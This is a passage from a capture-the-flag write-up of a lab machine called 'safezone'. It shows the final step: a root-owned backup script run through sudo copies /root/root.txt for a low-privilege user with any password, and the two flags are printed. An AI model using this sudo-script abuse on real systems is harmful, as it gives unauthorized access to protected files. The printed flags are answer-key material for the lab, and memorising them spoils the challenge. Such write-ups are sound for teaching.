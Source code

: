 Seems like we can backup files, we can simply backup `root.txt` and finish the ctf:

```
yash@safezone:/opt$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /root/root.txt
Enter destination: /home/yash/root.txt
Enter Password: test
```

Using any password still backups the file, we can now read both flags:

```
yash@safezone:/opt$ cat /home/yash/flag.txt
THM{c296539f3286a899d8b3f6632fd62274}

yash@safezone:/opt$ cat /home/yash/root.txt
THM{63a9f0ea7bb98050796b649e85481845}
```

![Pasted image 20250519214356.png](../../IMAGES/Pasted%20image%2020250519214356.png)

